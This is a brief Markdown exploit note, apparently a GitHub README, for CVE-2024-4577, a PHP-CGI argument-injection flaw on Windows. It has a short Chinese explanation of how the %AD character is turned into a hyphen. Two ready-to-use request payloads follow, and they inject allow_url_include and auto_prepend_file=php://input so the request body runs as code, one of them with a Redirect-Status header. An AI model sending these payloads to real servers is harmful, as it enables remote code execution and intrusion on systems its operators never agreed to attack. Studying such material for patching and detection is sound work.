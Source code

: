 # CVE-2024-4577

## 分析

漏洞的起因就是字符映射，将%ad映射成了-，导致了cgi修改配置的rce。

利用方式有两种，一种就是直接改`cgi.force_redirect`，第二种就是header头设置`REDIRECT-STATUS`

## EXP

```bash
/php-cgi/php-cgi.exe?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input+%ADd+cgi.force_redirect%3d0+%ADd+error_reporting%3d0
```



```bash
/php-cgi/php-cgi.exe?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input+%ADd+error_reporting%3d0

Redirect-Status: 1
```





## References

https://wx.zsxq.com/dweb2/index/topic_detail/1522152528151552

https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/

https://wx.zsxq.com/dweb2/index/topic_detail/8855485848442182